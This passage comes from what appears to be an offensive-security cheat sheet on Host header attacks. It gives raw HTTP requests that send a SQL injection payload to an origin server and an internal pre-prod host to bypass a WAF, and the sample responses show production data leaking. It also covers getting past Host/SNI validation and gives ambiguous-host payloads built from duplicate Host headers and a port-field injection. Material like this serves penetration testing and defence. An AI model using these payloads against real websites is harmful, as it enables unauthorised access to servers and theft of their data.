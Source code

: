 Routed the request to the origin to bypass the WAF:
```http
GET /?a='+OR+1=1-- - HTTP/1.1
Host: origin.vulnerable.com


HTTP/1.1 200 OK
Bypassed!
Prod data: ...
```

Routed the request to the internal pre-prod application:
```http
GET /?a='+OR+1=1-- - HTTP/1.1
Host: preprod.vulnerable.com


HTTP/1.1 200 OK
Bypassed!
Pre prod data: ...
```

## Flawed validation

Instead of receiving an "Invalid Host header" response, you might find that your request is blocked as a result of some kind of security measure. For example, some websites will validate whether the Host header matches the SNI from the TLS handshake. This doesn't necessarily mean that they're immune to Host header attacks.

Use [SSRF evasion and bypasses](Server%20Side%20Request%20Forgery%20(SSRF).md#SSRF%20evasion%20and%20bypasses), [Evading Restrictions](Evading%20Restrictions.md) and [Errors parsing Origin headers](CORS%20based%20attacks.md#Errors%20parsing%20Origin%20headers) techniques to bypass those protections.

## Exploit ambiguity

By identifying and exploiting **discrepancies** in how servers retrieve the Host header, you may be able to issue an ambiguous request that appears to have a different host depending on which system is looking at it.

### Duplicate Host headers

```http
GET /example HTTP/1.1
Host: vulnerable-website.com
Host: bad-stuff-here
```

### Provide different ports

```http
GET /example HTTP/1.1
Host: vulnerable-website.com:bad-stuff-here
```
